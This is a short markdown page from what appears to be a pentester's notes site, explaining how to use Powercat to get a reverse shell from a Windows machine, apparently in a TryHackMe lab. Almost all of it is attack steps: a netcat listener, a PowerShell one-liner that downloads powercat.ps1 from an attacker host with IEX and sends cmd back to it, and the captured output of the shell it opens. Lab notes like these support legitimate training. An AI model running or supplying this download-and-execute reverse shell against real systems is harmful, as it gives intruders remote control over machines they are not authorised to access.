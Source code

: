 ```yaml
---
layout: default
title: Powercat
parent: Shells
nav_order: 7
---
```


# Powercat

---

## Download (clone)

```bash
┌──(vagrant㉿kali)-[/opt/tools/powercat/powercat]
└─$ sudo git clone https://github.com/besimorhino/powercat.git
```

## Get Reverse Shell from Windows Target

Start Python HTTP server

```bash
python3 -m http.server 8080
```

Start Netcat Listener

```bash
nc -lvp 1337
```

Download the payload and execute it using PowerShell payload

```bash
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Receive reverse shell from target

```bash
┌──(vagrant㉿kali)-[/opt/tools/powercat/powercat]
└─$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```
